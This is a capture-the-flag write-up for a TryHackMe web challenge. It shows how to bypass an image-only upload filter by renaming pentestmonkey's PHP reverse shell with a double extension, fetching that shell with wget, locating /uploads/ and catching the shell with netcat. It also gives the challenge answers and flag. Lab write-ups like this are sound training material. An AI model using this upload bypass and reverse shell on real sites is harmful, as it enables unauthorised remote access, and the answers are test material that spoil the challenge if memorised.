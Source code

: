 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](<../.gitbook/assets/image (7).png>)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](<../.gitbook/assets/image (8).png>)

### What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](<../.gitbook/assets/image (9).png>)

### What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](<../.gitbook/assets/image (10).png>)

![](<../.gitbook/assets/image (11).png>)

Tried /uploads, /images, /media, /resources

![](<../.gitbook/assets/image (12).png>)

### In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](<../.gitbook/assets/image (13).png>)

### Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](<../.gitbook/assets/image (14).png>)

### What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}
